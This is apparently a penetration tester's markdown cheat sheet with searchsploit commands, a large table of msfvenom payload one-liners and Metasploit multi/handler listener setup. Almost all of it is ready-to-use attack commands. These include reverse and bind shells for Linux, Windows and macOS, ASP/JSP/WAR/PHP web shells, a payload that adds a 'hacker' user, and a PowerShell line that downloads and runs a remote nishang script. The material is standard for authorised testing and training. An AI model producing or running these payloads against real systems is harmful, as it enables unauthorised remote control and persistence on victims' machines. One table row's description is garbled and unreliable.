 ##### Searchsploit

Locate service exploits.
```
searchsploit <Name Of Service>
```

Copy exploit to working directory.
```
searchsploit -m aspx/webapps/46153.py
```

##### Meta

![](img/meta-cheat-sheet.png)


## msfvenom

##### MSFVenom Cheatsheet
Single Page Cheatsheet for common MSF Venom One Liners  
Available in PDF, DOCX and Markdown format!
*PDF and DOCX versions contain the payload size in bytes and a few more commands.*


##### MSFVenom Cheatsheet

I may need to switch the shell.exe to meterpreter.exe, and then start a multihandler listener covered in a lower section of this guide.

| MSFVenom Payload Generation One-Liner                                                                                                                                                                                     |                   Description                    |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :----------------------------------------------: |
| msfvenom -l   payloads                                                                                                                                                                                                    |             List available payloads              |
| msfvenom -p PAYLOAD --list-options                                                                                                                                                                                        |               List payload options               |
| msfvenom -p   PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT   LHOST=IP                                                                                                                                                     |                 Payload Encoding                 |
| msfvenom -p   linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf  >  shell.elf                                                                                                                                  | Linux Meterpreter  reverse shell x86 multi stage |
| msfvenom -p   linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf  >  shell.elf                                                                                                                                     |  Linux Meterpreter  bind shell x86 multi stage   |
| msfvenom -p linux/x64/shell_bind_tcp   RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                             |        Linux bind shell x64 single stage         |
| msfvenom -p linux/x64/shell_reverse_tcp   RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                          |       Linux reverse shell x64 single stage       |
| msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe >   shell.exe                                                                                                                                    |        Windows Meterpreter reverse shell         |
| msfvenom -p   windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe |      Windows Meterpreter http reverse shell      |
| msfvenom -p   windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe >   shell.exe                                                                                                                                      |          Windows Meterpreter bind shell          |
| msfvenom -p   windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe >   shell.exe                                                                                                                                          |             Windows CMD Multi Stage              |
| msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT   -f exe >  shell.exe                                                                                                                                           |             Windows CMD Single Stage             |
| msfvenom -p   windows/adduser USER=hacker PASS=password -f exe > useradd.exe                                                                                                                                              |                 Windows add user                 |
| msfvenom -p   osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho >   shell.macho                                                                                                                                      |                Mac Reverse Shell                 |
| msfvenom -p   osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho  >  shell.macho                                                                                                                                         |                  Mac Bind shell                  |
| msfvenom -p   cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw >   shell.py                                                                                                                                             |                   Python Shell                   |
| msfvenom -p   cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw >   shell.sh                                                                                                                                               |                    BASH Shell                    |
| msfvenom -p   cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw >   shell.pl                                                                                                                                               |                    PERL Shell                    |
| msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp >   shell.asp                                                                                                                                    |              ASP Meterpreter shell               |
| msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.jsp                                                                                                                                         |                    JSP Shell                     |
| msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war >   shell.war                                                                                                                                         |                    WAR Shell                     |
| msfvenom -p   php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.php   cat shell.php                                                                                                                        |              pbcopy && echo '?php '              |
| msfvenom -p   php/reverse_php LHOST=IP LPORT=PORT -f raw  >  phpreverseshell.php                                                                                                                                          |                Php Reverse Shell                 |
| msfvenom -a x86   --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object   Net.webClient).downloadString('http://IP/nishang.ps1')\""   -f python                                                            |   Windows Exec Nishang Powershell in   python    |
| msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                                                                   |          Bad characters shikata_ga_nai           |
| msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                                                                      |            Bad characters fnstenv_mov            |

# Multihandler Listener
To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,  
```
msf>use exploit/multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>            # Can use tun0 and eth0
msf>set lport <PORT> 

# This next part can probably be skipped, but lets test it out first

msf> set ExitOnSession false  
msf>exploit -j  
```

The -j option is to keep all the connected session in the background.  

# References

https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675  
https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/  
http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/